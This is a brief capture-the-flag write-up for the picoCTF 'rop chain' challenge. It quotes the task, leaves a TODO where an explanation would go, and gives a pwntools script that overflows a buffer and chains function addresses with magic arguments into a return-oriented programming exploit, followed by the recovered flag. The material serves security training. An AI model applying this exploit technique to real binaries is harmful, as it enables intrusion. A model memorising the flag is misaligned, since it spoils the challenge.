 > rop chain - Points: 350 - (Solves: 127)
> Can you exploit the following program and get the flag? You can findi the program in /problems/rop-chain_0_6cdbecac1c3aa2316425c7d44e6ddf9d on the shell server? Source.

<TODO>
```
from pwn import *

p = process("/problems/rop-chain_0_6cdbecac1c3aa2316425c7d44e6ddf9d/rop")

offset = 28
win1_add = 0x080485CB
win2_add = 0x080485D8
win2_arg = 0xBAAAAAAD
flag = 0x0804862B
flag_arg = 0xDEADBAAD

payload = 'A' * offset + p32(win1_add) + p32(win2_add) + p32(flag) + p32(win2_arg) + p32(flag_arg)

p.sendline(payload)
p.interactive()
```


Flag: `picoCTF{rOp_aInT_5o_h4Rd_R1gHt_536d67d1}`
